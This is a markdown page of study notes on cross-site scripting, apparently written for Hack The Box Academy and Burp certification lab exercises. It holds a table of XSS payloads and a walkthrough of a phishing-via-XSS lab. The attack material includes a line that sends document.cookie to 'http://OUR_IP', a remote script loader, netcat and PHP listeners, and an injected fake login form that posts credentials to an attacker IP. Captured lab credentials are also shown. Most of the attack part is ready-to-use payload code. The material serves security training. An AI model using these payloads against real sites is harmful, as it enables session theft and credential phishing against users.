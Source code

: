 # Cross-site Scripting (XSS)  

>Burp Suite Certified Practitioner (BSCP) [My Study Notes on XSS](https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study#cross-site-scripting)  

## Commands  

| Code | Description |
| ----- | ----- |
| **XSS Payloads** |
| `<script>alert(window.origin)</script>` | Basic XSS Payload [XSS Testing Payloads](https://academy.hackthebox.com/module/103/section/967) |
| `<script>alert(document.cookie)</script>` | To get the flag, use the same payload we used above, but change its JavaScript code to show the cookie instead of showing the url. |
| `<plaintext>` | Basic XSS Payload |
| `http://94.237.62.82:55501/index.php?task=%3Cscript%3Ealert%28document.cookie%29%3C%2Fscript%3E` | Reflected XSS, which gets processed by the back-end server, and DOM-based XSS, which is completely processed on the client-side and never reaches the back-end server. |
| `document.getElementById("todo").innerHTML = "<b>Next Task:</b> " + decodeURIComponent(task);` | [Identify DOM-XSS in the JavaScript source of the client browser](https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study#identify-dom-xss)  
| `<script>print()</script>` | Basic XSS Payload |
| `<img src="" onerror=alert(window.origin)>` | HTML-based XSS Payload |
| `<img src="" onerror=alert(document.cookie)>` | [DOM Attacks](https://academy.hackthebox.com/module/103/section/974) |
| `<script>document.body.style.background = "#141d2b"</script>` | Change Background Color |
| `<script>document.body.background = "https://www.hackthebox.eu/images/logo-htb.svg"</script>` | Change Background Image |
| `<script>document.title = 'HackTheBox Academy'</script>` | Change Website Title |
| `<script>document.getElementsByTagName('body')[0].innerHTML = 'text'</script>` | Overwrite website's main body |
| `<script>document.getElementById('urlform').remove();</script>` | Remove certain HTML element |
| `<script src="http://OUR_IP/script.js"></script>` | Load remote script |
| `<script>new Image().src='http://OUR_IP/index.php?c='+document.cookie</script>` | Send Cookie details to us |
| **Commands** |
| `python xsstrike.py -u "http://SERVER_IP:PORT/index.php?task=test"` | Run `xsstrike` on a url parameter |
| `sudo nc -lvnp 80` | Start `netcat` listener |
| `sudo php -S 0.0.0.0:80 ` | Start `PHP` server |


## Identify XSS  

>Simple test payload on target with no protection to identify XSS Reflection: [XSS Discovery](https://academy.hackthebox.com/module/103/section/982)  

```
<script>alert('pass')</script>
```  

![xss-identify](/images/xss-identify.png)  

## Phishing + XSS  

>[Phishing ](https://academy.hackthebox.com/module/103/section/984)  

>Try to find a working XSS payload for the Image URL form found at '/phishing' in the `http://10.129.63.83/phishing/index.php` server.
>Then use what you learned in this section to prepare a malicious URL that injects a malicious login form.
>Then visit '/phishing/send.php' to send the URL to the victim
>The victim user will log into the malicious login form. 
>If you did everything correctly, you should receive the victim's login credentials.
>Use obtained victim login gain access to '/phishing/login.php' and obtain the flag.  

>XSS injection point identified in source code below:  

![xss-source-code-review](/images/xss-source-code-review.png)  

>Below below uses `'>` to break out of te source code img tag.  

```
http://10.129.63.83/phishing/index.php?url=http://10.10.15.41/image.png'><script>alert('xss found')</script>
```  

![xss-phishing-found](/images/xss-phishing-found.png)  

>Login Form Injection phishing attack

```html
<div>
<h3>Please login to continue</h3>
<input type="text" placeholder="Username">
<input type="text" placeholder="Password">
<input type="submit" value="Login">
<br><br>
</div>
```  

>Use above and make Single JavaScript Cookie Stealer one-liner:

```
document.write('<h3>Please login to continue</h3><form action=http://10.10.15.41><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');
```  

![xss-cleanup](/images/xss-cleanup.png)  

>Removing the target function input box to get victim to login and provide credentials instead.
>From source code the HTML element we need to remove is the `urlform` id.  

```JavaScript
document.getElementById('urlform').remove();
```  

>Combine above remove functions with single oneline payload:  

```JavaScript
<script>
document.write('<h3>Please login to continue</h3><form action=http://10.10.15.41><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');document.getElementById('urlform').remove();
</script>
<!--
```  

![XSS-Phishing-payload-remove-html-id](/images/XSS-Phishing-payload-remove-html-id.PNG)  

>Using Exploit send phishing link url to victim: `http://10.129.63.83/phishing/send.php`.  

>Once the link send the kali hosted `python3 -m http.server 80` service receive the credentials from victim that clicked on the link and typed their info.

![xss-phishing-server](/images/xss-phishing-server.png)  

```
username=admin&password=p1zd0nt57341myp455
```

